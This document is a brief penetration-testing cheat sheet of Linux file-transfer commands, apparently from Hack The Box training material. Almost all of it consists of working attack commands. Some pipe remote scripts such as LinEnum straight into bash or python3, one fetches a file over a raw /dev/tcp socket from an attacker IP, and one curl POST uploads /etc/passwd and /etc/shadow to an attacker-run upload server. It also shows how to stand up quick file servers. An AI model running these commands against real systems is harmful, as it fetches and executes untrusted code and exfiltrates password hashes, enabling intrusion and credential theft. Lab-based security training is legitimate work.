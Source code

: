 
# Download files

```shell
u@htb[/htb]$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

u@htb[/htb]$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

#### Fileless
```shell
u@htb[/htb]$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

u@htb[/htb]$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

#### Bash
```shell
h@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80

h@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

h@htb[/htb]$ cat <&3
```

#### SSH
```shell-session
h@htb[/htb]$ sudo systemctl start ssh

h@htb[/htb]$ scp plaintext@192.168.49.128:/root/myroot.txt . 
```

# Upload files

Start server:
```shell
h@htb[/htb]$ sudo python3 -m pip install --user uploadserver

h@htb[/htb]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

h@htb[/htb]$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
Upload:
```shell
h@htb[/htb]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

Python/PHP/Ruby servers:

```shell
h@htb[/htb]$ python3 -m http.server

h@htb[/htb]$ python2.7 -m SimpleHTTPServer

h@htb[/htb]$ php -S 0.0.0.0:8000

h@htb[/htb]$ ruby -run -ehttpd . -p8000
```